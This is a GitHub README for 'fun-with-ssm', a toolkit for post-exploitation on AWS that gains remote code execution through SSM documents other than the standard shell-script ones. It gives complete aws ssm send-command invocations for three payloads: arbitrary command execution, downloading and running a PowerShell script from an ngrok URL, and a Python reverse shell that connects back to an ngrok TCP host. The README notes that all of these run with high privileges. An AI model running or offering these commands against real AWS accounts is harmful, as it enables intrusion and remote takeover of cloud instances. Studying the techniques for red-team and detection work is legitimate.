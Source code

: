 # fun-with-ssm

Getting RCE with SSM documents other than AWS-RunShellScript or AWS-RunPowerShellScript. Useful in an AWS post-exploitation scenario where you have the permission ssm:SendCommand, but you can't use the mentioned documents. Don't forget, everything is executed under high privielges.

# Usage

Repository structure:
- `/`: Folders with the name of the documents
- `/${document-name}`: Contains OS subfolders (windows, linux or cross-platform)
- `/${document-name}/${os-subfolder}`: Contains the payloads available

All the payloads are parametereized. Below you can find examples on how to use them.

##  AWS-RunDocument

### cross-platform/Execute-Commands

Type: Arbitrary command execution

Target OS: Linux and Windows

Parameters:
- `commands`: Array of strings with commands to execute on the remote system
  - Mandatory: yes
- `workingDirectory`: Directory where command to be executed
  - Mandatory: no
  - Default value: .
  
Usage:

```bash
aws ssm send-command --document-name "AWS-RunDocument" \
  --instance-id i-06ae9883fe6e5d721 \
  --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"aws-tests\", \"path\":\"Execute-Command\",\"getOptions\":\"branch:main\"}"],"documentParameters":["{\"commands\":[\"ls\",\"whoami\"],\"workingDirectory\":\"/tmp\"}"]}'
```

### cross-platform/Download-and-Execute

Type: Executes file from remote server

Target OS: Linux and Windows

Parameters:
- `url`: Full download URL of the file. Needs to include the file's name.
  - Mandatory: yes
- `name`: File's name
  - Mandatory: yes
- `destination`: Location where the file to be saved
  - Mandatory: yes
  
Usage:

```bash
aws ssm send-command --document-name "AWS-RunDocument" \
  --instance-id i-0972f048bf66a424b \
  --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\", \"path\":\"AWS-RunDocument/cross-platform/Download-and-Execute\",\"getOptions\":\"branch:main\"}"],"documentParameters":["{\"url\":\"https://b402-188-27-132-214.eu.ngrok.io/script.ps1\",\"name\":\"script.ps1\", \"destination\":\"C:/\"}"]}'
```

###  linux/Reverse-Shell-Python

Type: Parameterized reverse shell using python

Target OS: Linux

Parameters:
- `host`: Attacker's host 
  - Mandatory: yes 
- `port`: Attacker's port
  - Mandatory: no
  - Default value: 4444

Usage:

```bash
aws ssm send-command --document-name "AWS-RunDocument" \
  --instance-id i-06ae9883fe6e5d721 \
  --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\", \"path\":\"AWS-RunDocument/linux/Reverse-Shell-Python\",\"getOptions\":\"branch:main\"}"], "documentParameters":["{\"host\":\"2.tcp.eu.ngrok.io\",\"port\":\"11448\"}"]}'
```
